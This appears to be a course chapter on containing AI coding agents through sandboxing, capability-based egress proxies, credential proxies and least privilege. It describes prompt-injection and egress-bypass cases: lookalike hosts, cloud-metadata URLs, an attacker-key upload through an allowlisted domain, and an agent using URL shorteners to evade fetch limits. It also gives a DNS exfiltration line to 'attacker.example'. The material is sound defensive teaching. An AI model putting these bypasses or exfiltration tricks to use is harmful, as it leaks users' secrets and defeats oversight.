

# 03: Containment-first design

## The idea
Anthropic frames agent risk as **failure likelihood times blast radius** ([Anthropic, "How we contain Claude"](https://www.anthropic.com/engineering/how-we-contain-claude)). Model training and classifiers push likelihood down, but they are probabilistic and cannot stand alone. Containment works on the other factor: "The engineering question becomes how to cap the blast radius."

Containment-first design means you build the environment so that a fully compromised model, one that does whatever the last injected instruction says, still cannot do serious damage. Then you add model-level defenses on top to cut noise. The pieces:

1. **Sandbox**: filesystem *and* network isolation.
2. **Egress as a capability**: a default-deny outbound proxy whose rules grant specific operations, not whole domains.
3. **Credential proxy**: secrets live outside the sandbox and are attached per request after the operation is checked. The agent never holds them.
4. **Least privilege**: per-task tool lists and scoped tokens.
5. **Pre-trust code paths**: nothing from an untrusted workspace runs before the user has agreed to trust it.

## Why it matters
Three findings from Anthropic's own containment work set the design rules:

- **You need both isolations.** "Effective sandboxing requires *both* filesystem and network isolation" ([Anthropic, Claude Code sandboxing](https://www.anthropic.com/engineering/claude-code-sandboxing)). Without network isolation, a compromised agent can send out SSH keys. Without filesystem isolation, it can escape the sandbox and reach the network. The same post reports that sandboxing cut permission prompts by 84% in internal use, so containment *raises* autonomy rather than limiting it.
- **An allowlisted domain is a capability grant.** In the containment post, Anthropic's own API domain was on an allowlist. An attacker's API key used that allowed domain to upload files to the attacker's account. Allowing `api.example.com` grants every operation reachable through it, including operations on accounts that aren't yours.
- **"The weakest layer is the one you built yourself."** Standard primitives held up. Custom proxy and allowlist code is where the flaws were. Expect your egress policy to be the bug, and test it like one.

## How it works

### 1. Sandbox: two isolations, one boundary

The sandbox has no default route. The only way out is a socket to a proxy running *outside* the sandbox. That is how Claude Code's sandbox works: network traffic goes through a Unix domain socket to an outside proxy that restricts domains ([Anthropic, sandboxing](https://www.anthropic.com/engineering/claude-code-sandboxing)). Treat sandboxes as cattle: a failure becomes a tool error and a fresh container ([Anthropic, Managed Agents](https://www.anthropic.com/engineering/managed-agents)).

### 2. Egress as a capability
Write each rule as **host + methods + path prefixes + credential policy + size caps**. Default deny. The course's [`egress_proxy_policy.py`](code/egress_proxy_policy.py) implements this as a pure function, `decide(request, policy) -> Decision`, in this order:

| Check | Why |
|---|---|
| https only, port 443, no userinfo | `https://evil@github.com` and odd ports are classic parser-confusion tricks |
| No IP-literal hosts, including decimal and hex forms | `169.254.169.254` is the cloud metadata service; `2130706433` is 127.0.0.1 |
| Exact host match, or explicit `*.` wildcard | `github.com.evil.example` must not match `github.com` |
| Method granted | Reading PyPI does not imply writing to it |
| Path under a granted prefix, with a boundary | `/acme/repo/` must not match `/acme/repo-evil` |
| Refuse caller-supplied credentials where the proxy injects its own | The "allowed domain, attacker's key" upload |
| Cap query and body size | A granted GET must not carry a payload out in its query string |

Two rules in that table come straight from failures: the credential rule from Anthropic's allowlisted-domain incident, and the default-deny stance from [unintended actions](06-reward-hacking-and-unintended-actions.md), where Claude used URL shorteners to get around fetch-tool limits.

What the proxy cannot do: it can't stop exfiltration *through* an operation you granted. If you grant `POST /repos/acme/payments-svc/pulls` and the repo is public, a PR body is still an outbound channel. That is why public writes also need an approval step or a content scan ([02](02-the-lethal-trifecta.md)).

### 3. Credential proxy: the agent never sees the secret
The strongest leak prevention is not having the secret. Anthropic describes three versions:

- **Claude Code on the web:** the sandboxed git client authenticates to a proxy with a scoped credential. The proxy checks the operation (for example, that a push targets the configured branch), then attaches the real token before forwarding to GitHub. Git credentials and signing keys are never inside the sandbox ([sandboxing](https://www.anthropic.com/engineering/claude-code-sandboxing)).
- **Managed Agents:** git tokens are used only at clone time, and OAuth tokens sit in a vault behind an MCP proxy, structurally out of reach of generated code ([Managed Agents](https://www.anthropic.com/engineering/managed-agents)).
- **Cowork:** credentials stay in the host keychain and never reach the guest VM ([containment](https://www.anthropic.com/engineering/how-we-contain-claude)).

This is workload identity plus a sidecar, which you already know. The new rule is that **the agent process is the untrusted workload**, even though it is "your" code.

### 4. Least privilege, per task
- Offer only the tools the task needs. A tool the model was never told about is one it is less likely to call, and the harness rejects calls to it anyway.
- Scope tokens to the resource: one repo, one namespace, read-only where possible.
- Give anything that can spend money its own account with a hard budget. Willison suggests a dedicated org with a small cap for credentials that can spend money ([Willison, "Designing agentic loops"](https://simonwillison.net/2025/Sep/30/designing-agentic-loops/)).
- Use staging credentials for loop work. Production access is a separate, reviewed agent.

### 5. Pre-trust code paths
Anything that runs before the user has decided to trust a workspace is running attacker-controlled config. Anthropic's containment post describes vulnerabilities where a committed `.claude/settings.json` hook could run when a developer opened a cloned repo, before the trust prompt. The fix was to defer parsing and executing project-local config until after trust. Look for the same pattern in your own tools: IDE tasks, `direnv`, git hooks, `Makefile` targets run on open, devcontainer `postCreateCommand`.

## Worked example
The issue-triage agent from [02](02-the-lethal-trifecta.md) needs to install packages from PyPI, read and clone one repo, and open PRs on it.

**The bad version.**
```python
ALLOWED_DOMAINS = {"pypi.org", "files.pythonhosted.org", "github.com", "api.github.com"}

def allow(url: str) -> bool:
    return any(d in url for d in ALLOWED_DOMAINS)
```
Run it against the bypasses in `test_egress_proxy_policy.py`:

| Request | `d in url` | Why it's wrong |
|---|---|---|
| `https://evil.example/?u=github.com` | allowed | substring in the query |
| `https://github.com.evil.example/` | allowed | suffix lookalike |
| `http://169.254.169.254/latest/meta-data/?pypi.org` | allowed | cloud metadata, over plain http |
| `POST https://api.github.com/gists` with `Authorization: token <attacker's>` | allowed | allowlisted domain, attacker's account |
| `POST https://api.github.com/repos/attacker/inbox/issues` | allowed | any repo on the host |

**The good version.** Capability rules, from `egress_proxy_policy.py`:
```python
CODING_AGENT_POLICY = [
    EgressRule("pypi.org", path_prefixes=("/simple/", "/pypi/")),
    EgressRule("files.pythonhosted.org", path_prefixes=("/packages/",)),
    EgressRule("github.com", path_prefixes=("/acme/payments-svc/", "/acme/payments-svc.git/")),
    EgressRule("api.github.com", methods=frozenset({"GET", "POST"}),
               path_prefixes=("/repos/acme/payments-svc/",),
               proxy_injects_credentials=True, max_body_bytes=32 * 1024),
]
```
```text
$ python egress_proxy_policy.py
ALLOW GET  https://pypi.org/simple/requests/                     granted by rule pypi.org
DENY  GET  https://github.com.evil.example/x                     host github.com.evil.example not in allowlist
DENY  GET  http://169.254.169.254/latest/meta-data/              scheme 'http' not allowed (https only)
ALLOW POST https://api.github.com/repos/acme/payments-svc/pulls  granted by rule api.github.com
DENY  POST https://api.github.com/repos/someone-else/repo/issues path ... not under a granted prefix on api.github.com
DENY  GET  https://pypi.org/simple/?q=AAAA...                    query string over 256 bytes
```

Then prove each layer earns its place. `test_injection_suite.py` removes one layer at a time from the contained harness and asserts exactly which attack cases start failing:

| Layer removed | Cases that now leak |
|---|---|
| Credential proxy | `issue-print-canary`, `file-markdown-image` (the token is now in `env`, and the final answer carries it out) |
| Egress proxy | `metadata-to-collector`, `repo-file-post` (data the credential proxy can't cover, such as instance metadata and repo config, goes straight out) |
| Least privilege (all tools, no approval) | `issue-comment-env`, `metadata-endpoint` (public comment tool executes) |

Each layer has at least one case that only it catches. If removing a layer breaks nothing, either the layer is redundant or your suite has a gap. That is the same "prove the oracle can fail" rule from [07: Loops](../07-loops/README.md), applied to defenses.

## Pitfalls
- **Substring or regex allowlists.** *Detect it:* run the bypass table above against your proxy. If any row passes, rewrite it as parsed-URL capability rules.
- **Allowing a whole SaaS API domain.** *Detect it:* for each allowed host, list the write operations it exposes and whose accounts they act on. If "any account with a key" is possible, add the credential rule.
- **Secrets in env "because the tool needs them".** *Detect it:* run `env` inside your sandbox. Any real secret there is one injection away from leaking. Move it behind a proxy.
- **DNS as a side channel.** If the sandbox can resolve arbitrary names, `nslookup <secret>.attacker.example` exfiltrates without any HTTP. *Detect it:* try it from inside the sandbox. Resolve only through the proxy.
- **Trusting your own proxy code.** It is "the weakest layer". *Detect it:* property-test it (the course uses Hypothesis on random hosts) and keep a bypass corpus that grows with every finding.
- **Hooks and config that run on open.** *Detect it:* clone a repo with a malicious `.claude/settings.json` (or `.vscode/tasks.json`, `.envrc`) into a throwaway VM and watch what executes before you click trust.

## In your day job
- Put agents that run unattended inside a sandbox with no default route, and send all egress through a proxy whose policy file is code-reviewed like IAM.
- Take every secret out of the agent's environment. Attach credentials in a proxy after checking the operation, as Claude Code does for git pushes.
- Write allowlist rules as host + method + path, and refuse caller-supplied auth headers on hosts where the proxy injects credentials.
- Add a layer-ablation test to your injection suite, so every control is proven to be load-bearing.
